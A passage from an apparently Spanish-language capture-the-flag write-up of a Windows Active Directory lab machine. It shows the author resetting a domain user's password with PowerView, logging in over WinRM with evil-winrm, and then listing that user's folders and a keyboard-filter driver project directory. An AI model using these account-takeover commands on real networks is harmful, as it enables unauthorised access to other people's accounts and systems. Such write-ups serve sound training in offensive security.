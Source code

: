 Podemos cambiar la contraseña de los usuarios `baz.humphries` y `jacob.greeny`... y estos usuarios pueden acceder al servidor por WinRM. Vamos a reiniciarle la contraseña a `jacob.greeny` con powerview para ver que tiene:

```bash
PS C:\Users\dallon.matrix> $passwd = ConvertTo-SecureString -AsPlainText -Force 'Password123!'
PS C:\Users\dallon.matrix> Set-DomainUserPassword -Identity jacob.greeny -AccountPassword $passwd
```

Ahora podemos acceder como este usuario por WinRM.

```bash
❯ evil-winrm -i 10.10.11.21 -u 'jacob.greeny' -p 'Password123!'
                                        
Evil-WinRM shell v3.6
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jacob.greeny\Documents>
```

### Administrador

No hay nada interesante por la carpeta de este usuario

```bash
*Evil-WinRM* PS C:\Users\jacob.greeny> dir


    Directory: C:\Users\jacob.greeny


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---          5/8/2021   1:20 AM                Desktop
d-r---          1/1/2024   3:44 AM                Documents
d-r---          5/8/2021   1:20 AM                Downloads
d-r---          5/8/2021   1:20 AM                Favorites
d-r---          5/8/2021   1:20 AM                Links
d-r---          5/8/2021   1:20 AM                Music
d-r---         6/13/2024   1:41 AM                OneDrive
d-r---          5/8/2021   1:20 AM                Pictures
d-----          5/8/2021   1:20 AM                Saved Games
d-r---          5/8/2021   1:20 AM                Videos
```

Pero hay un directorio que posee un código nativo de C para un driver de Windows, se llama `kbfiltr` y está ubicado en `C:\App Development\kbfiltr`. Antes no podíamos acceder a dicho directorio:
 
```bash
*Evil-WinRM* PS C:\App Development\kbfiltr> dir


    Directory: C:\App Development\kbfiltr


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          1/1/2024  10:03 PM                exe
d-----          1/1/2024  10:03 PM                sys
-a----        12/14/2023  11:39 AM           2528 kbfiltr.sln
-a----         6/11/2024  11:16 PM           2805 README.md
```
